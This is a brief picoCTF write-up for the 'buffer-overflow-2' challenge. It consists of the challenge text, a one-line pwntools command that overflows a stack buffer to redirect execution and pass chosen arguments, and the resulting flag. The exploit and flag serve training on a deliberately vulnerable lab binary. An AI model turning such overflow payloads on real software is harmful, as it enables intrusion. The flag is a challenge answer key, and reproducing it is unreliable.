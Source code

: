 [Category:Picoctf](/Category:Picoctf "wikilink") Alright, this time
you'll need to control some arguments. Can you get the flag from this
program? You can find it in
/problems/buffer-overflow-2_3_02aff35ae94896082cad513865e6c2eb on the
shell server. Source.

python -c "from pwn import \*; print
'a'\*(100+12)+p32(0x080485cb)+'P'\*4+p32(0xDEADBEEF)+p32(0xDEADC0DE)" |
./vuln

picoCTF{addr3ss3s_ar3_3asya4104c14}